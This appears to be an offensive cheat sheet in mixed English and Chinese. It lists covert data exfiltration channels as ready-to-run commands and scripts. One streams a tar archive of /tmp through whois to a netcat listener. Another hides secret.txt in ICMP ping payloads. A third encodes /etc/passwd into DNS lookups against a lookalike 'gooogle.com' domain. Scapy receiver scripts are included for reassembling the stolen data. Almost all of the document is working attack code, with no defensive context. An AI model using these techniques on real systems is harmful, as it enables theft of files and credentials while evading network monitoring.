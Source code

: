 [WHOIS + TAR](https://twitter.com/mubix/status/1102780436118409216)
First:  
```
ncat -k -l -p 4444 | tee files.b64  #tee to a file so you can make sure you have it
```

Next
```
tar czf - /tmp/* | base64 | xargs -I bits timeout 0.03 whois -h host_ip -p 4444 bits
```

Finally
```
cat files.b64 | tr -d '\r\n' | base64 -d | tar zxv #to get the files out
```

PING
发送端:
```
xxd -p -c 4 secret.txt | while read line; do ping -c 1 -p $line ip; done
```
接收端`ping_receiver.py`:
```
import sys

try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")
    sys.exit(0)


def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```
```
python3 ping_receiver.py
```

DIG
发送端:
```
xxd -p -c 31 /etc/passwd | while read line; do dig @172.16.1.100 +short +tries=1 +time=1 $line.gooogle.com; done
```
接收端`dns_reciver.py`:
```
try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")

def process_packet(pkt):
    if pkt.haslayer(DNS):
        domain = pkt[DNS][DNSQR].qname.decode('utf-8')
        root_domain = domain.split('.')[1]
        if root_domain.startswith('gooogle'):
            print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end='')

sniff(iface="eth0", prn=process_packet)
```
```
python3 dns_reciver.py
```